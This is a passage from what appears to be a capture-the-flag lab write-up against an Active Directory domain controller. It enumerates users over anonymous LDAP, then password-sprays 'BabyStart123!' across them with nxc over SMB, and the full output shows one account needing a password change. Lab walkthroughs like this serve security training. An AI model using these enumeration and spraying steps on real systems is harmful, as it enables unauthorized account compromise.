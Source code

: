 - Format into users list (Regex)

```bash
┌──(root㉿kali)-[/home/kali/vulnlab/baby]
└─# ldapsearch -H ldap://10.10.88.67 -x -b "dc=baby,dc=vl" "user" | grep '^dn: CN=' users.txt | grep 'OU=' | sed -n 's/^dn: CN=\([^,]*\) \([^,]*\),.*/\1.\2/p' > users.txt
                                                                                                                                                                                                   
┌──(root㉿kali)-[/home/kali/vulnlab/baby]
└─# cat users.txt 
Jacqueline.Barnett
Ashley.Webb
Hugh.George
Leonard.Dyer
Ian.Walker
Connor.Wilkinson
Joseph.Hughes
Kerry.Wilson
Teresa.Bell
Caroline.Robinson

```



### Password Spray via nxc

- Now we can use `nxc` to use the `users.txt` for the password `BabyStart123!`:

```bash
´ ┌──(root㉿kali)-[/home/kali/vulnlab/baby]
└─# nxc smb baby.vl -u users.txt -p  'BabyStart123!' --continue-on-success
SMB         10.10.88.67     445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False) 
SMB         10.10.88.67     445    BABYDC           [-] baby.vl\Jacqueline.Barnett:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.88.67     445    BABYDC           [-] baby.vl\Ashley.Webb:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.88.67     445    BABYDC           [-] baby.vl\Hugh.George:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.88.67     445    BABYDC           [-] baby.vl\Leonard.Dyer:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.88.67     445    BABYDC           [-] baby.vl\Ian.Walker:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.88.67     445    BABYDC           [-] baby.vl\Connor.Wilkinson:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.88.67     445    BABYDC           [-] baby.vl\Joseph.Hughes:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.88.67     445    BABYDC           [-] baby.vl\Kerry.Wilson:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.88.67     445    BABYDC           [-] baby.vl\Teresa.Bell:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.88.67     445    BABYDC           [-] baby.vl\Caroline.Robinson:BabyStart123! STATUS_PASSWORD_MUST_CHANGE 
```
